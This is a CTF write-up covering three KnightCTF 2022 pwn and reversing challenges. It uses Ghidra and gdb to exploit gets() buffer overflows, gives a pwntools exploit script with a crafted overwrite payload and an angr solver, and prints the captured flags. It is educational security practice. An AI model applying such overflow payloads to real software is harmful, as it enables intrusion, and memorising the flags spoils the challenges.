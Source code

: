 ```yaml
---
title: Pwn
author: jopraveen
date: 2022-01-23
categories: [CTFTime,KnightCTF]
tags: [pwn,rev]
---
```


## What's your name [50 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA

#### Main function
![disas-main](https://i.imgur.com/zmeG6el.png)
- gets() is vulnerable to buffer overflow
- in line 14 they're checking the value 100 is still in that variable or not
- If we overwrite that variable then the if condition will be statisfied means the value 100 will be overwritten
- So we can get the flag
- Ok how we can do that?
  - char **user_input** array can store upto 60 bytes
  - in memory after the user_input there will be the value of the integer (100)
  - so if we give more than 60 bytes it'll overwrite that integer
  - let's try that

![](https://i.imgur.com/Ymq1znG.png)
- Now let's try this at remote server

![](https://i.imgur.com/LPrmzMh.png)
- Nice we got our flag `KCTF{bAbY_bUfF3r_0v3Rf1Ow}`

------------

## What's your name 2 [100 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA

#### Main function
- In ghidra we can reaname a variable by pressing `L` or right click it and do `rename variable`
- And we can add comments too (by pressing `;` semicolon in that particular line)
- That's what I did here, so don't confuse coz  it's different.. It's fully for your understanding purpose

![](https://i.imgur.com/TPBHQGG.png)

- I think I explained in the picture so it's enough to understand the vulnerablity
, lets skip to the exploitation part
- In line 22 there are  two condition checks
- One with **0x5445454c** , anther one with **0x534b544e**
- So we need to overwrite those values
- First let's find in which offset they are located
- Let's open it with gdb and disassemble the main function

![](https://i.imgur.com/FN99TjA.png)
- Let's set breakpoints in both compare instructions

![](https://i.imgur.com/QRXxeAW.png)
- run it. I'm giving a pattern here as input

![](https://i.imgur.com/Wo7xzUi.png)
- We hit our first break point, let see what's in **eax** register

![](https://i.imgur.com/UUpEc4w.png)
- So we need to place **0x5445454c** at 76th position
- Before going to next breakpoint we need to set this register value as **0x5445454c**
- `set $eax=0x5445454c` and continue
- Then only it jumps to next comparison, otherwise it directly exits
- Now we hit our 2nd breakpoint, let's see what's in **eax** register

![](https://i.imgur.com/DR0fvjb.png)
- So we need to place **0x534b544e** at 72nd position
- Fine now let's write our exploit
- Don't forget we need to convert these values into little endian format

#### Exploit script
```python
#!/usr/bin/python3
from pwn import *
p = process('whats_your_name_two')

payload = b'A'*72 # fill 72 bytes with junk

''' 
>>> from pwn import *
>>> p64(0x534b544e)
b'NTKS\x00\x00\x00\x00'
our second argument starting at 76th position, 
so let's leave the nullbytes and take only "NTKS"
'''
payload += b'NTKS'
payload += p64(0x5445454c) # here we can send with null bytes, no problems

p.sendline(payload)
p.interactive()
```
- Nice it works, let's send this in remote server

![](https://i.imgur.com/PU4zjdR.png)
- Cool we got our flag `KCTF{bUfF3r_0v3Rf1Ow_i5_fUn_r1Gh7}`

-------

## Hackers Vault [100 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA
- I was concentrating on other challenge so I automated this challenge with angr

#### angr script
```python
#!/usr/bin/python3
import angr
import claripy
import sys

good_address = 0x0040124a
bad_address = 0x00401288
base_addr = 0x00400000
flag_length = 6
binary = './hackers_vault'

proj=angr.Project(binary,load_options={'auto_load_libs':False},main_opts={'base_addr':base_addr})
flag=[claripy.BVS('flag%i'%i,8) for i in range(flag_length)]

flag_concat=claripy.Concat(*flag + [claripy.BVV("\n")])
state=proj.factory.entry_state(stdin=flag_concat) 
for i in flag: 
    state.solver.add(i>=32)
    state.solver.add(i<=127)
simgr=proj.factory.simgr(state)
simgr.explore(find=good_address,avoid=bad_address)
if simgr.found:
    simulation=simgr.found[0]
    print(simulation.posix.dumps(sys.stdin.fileno()))
else:
    print("FAILURE")
```

- I know it's too much for this
- But it works, that's what we need

![](https://i.imgur.com/J5rD8Q7.png)
- IN REMOTE

![](https://i.imgur.com/VvuvDAY.png)
- flag `KCTF{b1NaRy_3xOpL0iTaT1On_r0cK5}`
- That's all for this category, easy pwns 😛
    
    
    
    
    